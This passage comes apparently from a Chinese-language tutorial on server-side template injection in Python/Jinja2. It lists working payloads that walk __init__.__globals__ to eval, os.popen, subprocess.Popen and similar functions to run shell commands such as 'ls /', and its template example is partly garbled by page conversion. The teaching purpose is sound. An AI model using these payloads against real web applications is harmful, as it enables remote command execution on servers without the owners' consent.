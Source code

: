 ```python
 # 模板语法 _ 命令执行_eval

<div data-gb-custom-block data-tag="for">

    

<div data-gb-custom-block data-tag="if" data-0='eval' data-1='eval' data-2='eval' data-3='eval' data-4='eval' data-5='eval' data-6='eval' data-7='eval' data-8='eval' data-9='eval' data-10='__builtins__' data-11='__builtins__' data-12='][' data-13='][' data-14='][' data-15=']['>

        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    

</div>

</div>

```

模板语法我们下一节会细讲，现在让我们把目光移回到子类上面。

还有其他的一些子类也能达到 eval 的效果，见下图：

![image-20231129164759866](../.gitbook/assets/image-20231129164759866.png)

### 命令执行

在构造命令执行的 payload 的时候，要注意一些函数的回显和返回值。

```python
# eval 
x[NUM].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') 

# os.py
x[NUM].__init__.__globals__['os'].popen('ls /').read()

# popen
x[NUM].__init__.__globals__['popen']('ls /').read()

# _frozen_importlib.BuiltinImporter
x[NUM]["load_module"]("os")["popen"]("ls /").read()

# linecache
x[NUM].__init__.__globals__['linecache']['os'].popen('ls /').read()

# subprocess.Popen
x[NUM]('ls /',shell=True,stdout=-1).communicate()[0].strip()
```